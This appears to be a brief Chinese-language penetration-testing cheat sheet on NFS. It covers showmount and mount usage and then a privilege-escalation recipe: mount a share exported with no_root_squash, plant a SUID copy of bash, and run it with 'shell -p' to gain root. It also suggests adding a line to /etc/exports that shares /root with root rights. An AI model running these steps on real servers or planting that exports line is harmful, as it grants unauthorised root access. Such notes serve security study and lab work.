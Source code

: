 ### showmount

查看挂载

**语法格式**：showmount 参数 域名或IP地址

常用参数：

> -a显示客户端主机名和挂载目录
>
> -d 仅显示已被NFS客户端加载的目录 
>
> -v 显示版本信息
>
> -e 显示NFS服务器上所有的共享目录

```shell
sudo showmount -e x.x.x.x
```

### mount

进行挂载

```shell
sudo mount -o rw 10.10.10.10:/tmp /home/kali/mount1
```

取消挂载

```
umount /home/kali/mount1
```



```
#查看NFS服务器上的共享目录
sudo showmount -e x.x.x.x
#创建本地挂载目录，挂载共享目录。使用攻击者本地root权限创建Suid shell
sudo mkdir -p /tmp
sudo mount -t nfs x.x.x.x:/home/test /tmp
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
#回到要提权的服务器上，使用普通用户使用shell -p来获取root权限

```

```
有个挂载目录无权限，是因为uuid不匹配
需要在本地创建相同的用户和uuid即可访问
```

### 更改/etc/exports文件提权

```
加入这一行，相当于将root目录共享，并且授予root用户权限
/root           *(no_root_squash,insecure,rw)
```
